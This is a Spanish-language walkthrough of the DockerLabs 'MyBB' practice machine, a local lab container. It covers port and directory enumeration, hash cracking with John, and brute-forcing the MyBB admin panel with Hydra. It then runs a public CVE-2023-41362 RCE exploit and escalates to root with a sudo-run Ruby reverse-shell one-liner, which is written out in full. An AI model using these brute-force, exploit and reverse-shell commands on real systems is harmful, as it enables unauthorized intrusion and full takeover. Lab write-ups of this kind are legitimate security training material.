 # MyBB

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN MyBB`  

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_1.png)     

Tenemos solo un puerto abierto, el 80.  
Echemos un vistazo para ver qué corre en ese puerto.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_2.png)      

Veamos esta página y si intentamos hacer clic en "Ir al foro", veremos que somos redirigidos a la dirección panel.mybb.dl.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_3.png)   

Modifiquemos entonces nuestro archivo de hosts y agreguemos esta entrada, y volvemos a ver que corre a esta dirección.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_4.png)   

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_5.png)    

Hacemos un poco de fuzzing con la herramienta **gobuster**.  
Para ello ejecutamos el comando:  

`sudo gobuster dir -u http://panel.mybb.dl/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt `  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_6.png)     

Vemos que hay 2 entradas interesantes. Una llamada backups y la otra admin.  

Analicemos el recurso backups.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_7.png)    

Nos llama la atención una línea en particular donde se ve que un usuario llamado alice intentó acceder con una contraseña que aparece hasheada.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_8.png)      

Copiamos la cadena en un archivo de texto que llamaremos **hash** y lo pasaremos a John the Ripper para ver si podemos descubrir la contraseña.  
Ejecutamos el comando:  

`john --wordlist=/usr/share/wordlists/rockyou.txt hash`  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_9.png)       

¡Bien!   
¡Tenemos una contraseña!   
Intentemos iniciar sesión en el foro.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_10.png)   

Nos devuelve un error.  

Echemos un vistazo a la dirección: http://panel.mybb.dl/admin/  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_11.png)   

Nos encontramos frente a un panel de inicio de sesión.  
Lo que podemos hacer es intentar realizar un ataque de fuerza bruta con Hydra.  
Usaremos el usuario **admin**, que vimos ser un usuario válido al analizar previamente el registro de respaldo.  

`sudo hydra -t 64 -l admin -P /usr/share/wordlists/rockyou.txt panel.mybb.dl http-post-form "/admin/index.php:username=^USER^&password=^PASS^:The username and password combination you entered is invalid."`  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_12.png)   

El comando funcionó, aunque nos devolvió una serie de falsos positivos.  
Después de probar pacientemente algunos de ellos, vemos que podemos iniciar sesión con la contraseña **babygirl**.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_13.png)     

Una vez dentro, nos llama la atención el mensaje que nos informa que la versión no está actualizada.  
Bien, tenemos el número exacto de la versión de MyBB, así que buscaremos en internet si hay vulnerabilidades conocidas.  

Descubrimos que esta versión es vulnerable (CVE-2023-41362 - MyBB ACP RCE).  
Descargamos el exploit que encontramos en GitHub en la siguiente dirección: [https://github.com/SorceryIE/CVE-2023-41362_MyBB_ACP_RCE](https://github.com/SorceryIE/CVE-2023-41362_MyBB_ACP_RCE).  
Ejecutamos el script con el comando:  

`python3 exploit.py http://panel.mybb.dl admin babygirl`  

e intentamos enviarnos una reverse shell.  
Vamos al sitio revshells.com [https://www.revshells.com/](https://www.revshells.com/) y en este caso funcionará la reverse shell en Perl.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_14.png)      

Nos ponemos a escuchar en el puerto 6969 y ejecutamos el comando.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_15.png)     

¡Perfecto, estamos dentro!  
Ahora, como de costumbre, realizaremos el tratamiento de la shell para poder trabajar más cómodamente.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_16.png)     

# Escalada de privilegios

Ejecutamos los típicos comandos:

`sudo -l`  
`find / -perm -400 2>/dev/null`

para intentar elevar nuestros privilegios, pero no obtenemos ninguna información interesante.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_17.png)       

Vemos entonces si en la máquina existe un usuario llamado **alice** del cual tenemos una contraseña que descubrimos previamente.    

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_18.png)       

Bien, intentemos iniciar sesión como **alice**.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_19.png)       

¡Excelente! Ahora ejecutemos `sudo -l` para ver si podemos escalar nuestros privilegios.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_20.png)      

Interesante, podemos ejecutar archivos `.rb` con permisos de sudo.  
Lo que haremos será crear un script en Ruby que nos envíe una reverse shell, por ejemplo, en el puerto 7070.  
Una vez más, usaremos el sitio web de revshells.com para generar nuestro script.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_21.png)    

Para crear el script Ruby con echo desde el terminal, puedes usar el siguiente comando:  

`echo "ruby -rsocket -e'spawn(\"sh\",[:in,:out,:err]=>TCPSocket.new(\"172.17.0.1\",7070))'" > reverse_shell.rb`  

Y luego les daremos permisos de ejecución con el comando:

`chmod +x reverse_shell.rb`
 
![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_22.png)      

Ahora no nos quedará más que ponernos a escuchar en el puerto 7070 de nuestra máquina atacante y ejecutar el comando `sudo ./reverse_shell.rb` en la máquina víctima.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_23.png)     

¡Y listo!  
¡Somos root!













